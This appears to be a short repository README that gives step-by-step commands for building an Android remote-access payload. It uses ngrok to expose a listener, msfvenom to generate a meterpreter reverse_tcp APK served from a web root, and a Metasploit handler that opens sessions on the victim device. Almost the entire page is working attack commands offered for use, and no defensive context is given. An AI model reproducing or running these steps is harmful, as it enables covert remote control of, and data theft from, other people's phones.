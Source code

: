 ## Create an Android Payload
- <b>Step.1 : </b> go to [ngrok](https://ngrok.com/) and Register
- <b>Step.2 : </b> Download and follow instructions

```
./ngrok tcp 4242
```

- <b>Step.3 : </b> Create Exploit .apk

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=8.tcp.ngrok.io LPORT=10662 R> /var/www/html/andy.apk
```

- <b>Step.4 : </b> Set meterpreter

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
show options
exploit
```

- <b> Meterpreter commands</b>

```
sessions
sessions -i 1
```
